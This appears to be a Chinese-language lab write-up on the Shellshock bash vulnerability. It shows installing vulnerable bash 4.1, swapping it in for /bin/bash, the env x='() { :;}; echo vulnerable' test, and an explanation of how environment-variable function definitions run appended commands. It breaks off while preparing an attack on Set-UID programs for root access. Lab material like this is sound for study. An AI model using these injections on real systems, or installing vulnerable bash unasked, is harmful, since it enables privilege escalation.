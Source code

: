 # Attack

[TOC]

# 2. 进行实验所需的准备
## 1. 环境搭建
以root权限安装4.1版bash（4.2版本以上的漏洞已经被堵上了）
bash4.1 下载地址：http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz

**download:**

```c
# wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz
--2019-10-02 19:05:39--  http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz

Resolving labfile.oss.aliyuncs.com (labfile.oss.aliyuncs.com)... 47.110.177.159
Connecting to labfile.oss.aliyuncs.com (labfile.oss.aliyuncs.com)|47.110.177.159|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6598300 (6.3M) [application/octet-stream]
Saving to: ‘bash-4.1.tar.gz’

bash-4.1.tar.gz    100%[==============>]   6.29M  1.07MB/s    in 11s     

2019-10-02 19:05:51 (583 KB/s) - ‘bash-4.1.tar.gz’ saved [6598300/6598300]
```

**Install**

```c
# tar xf bash-4.1.tar.gz   /解压
# cd bash-4.1              /打开
# ./configure              /打开configure文件
# make & make install      /安装

/这几句语句是运行时间最长的，网速不好的情况下在这一步重复输入了很多次。
```
等彩色kali变成黑白kali先，然后最好再重复一次
不要关窗口，要不会变回彩色的

**链接bash**

```c
# rm /bin/bash
# ln -s /usr/local/bin/bash /bin/bash
```


## begin

安装完了，接下来检测是否存在shellshock漏洞。

```c
kali# env x='() { :;}; echo vulnerable' bash -c "echo this is a test "

vulnerable
this is a test

/输出vulnerable,说明bash有漏洞。
```


## 2.预备知识
了解bash自定义函数，只需要函数名就能够调用该函数。

```
$ foo() { echo bar; }
$ foo
> bar
```

这个时候的Bash的环境变量：

`KEY = fooVALUE = () { echo bar; }`

来看看ShellShock漏洞的真身：

```
export foo=’() { :; }; echo Hello World’
bash
>Hello World
```

怎么样？看明白了没？为什么调用bash的时候输出Hello World了呢？ 瞧瞧他内部的情况：

`KEY = fooVALUE = () { :; }; echo Hello World`

bash读取了环境变量，在定义foo之后直接调用了后面的函数。
一旦调用bash，自定义的语句就直接触发。


## 1.攻击Set-UID程序

通过攻击Set-UID程序来获得root权限。

首先，确保安装了带有漏洞的bash版本，并让/bin/sh 指向/bin/bash.

```c
$ sudo ln -sf /bin/bash /bin/sh
```
现在一切就绪，进入下一步吧。
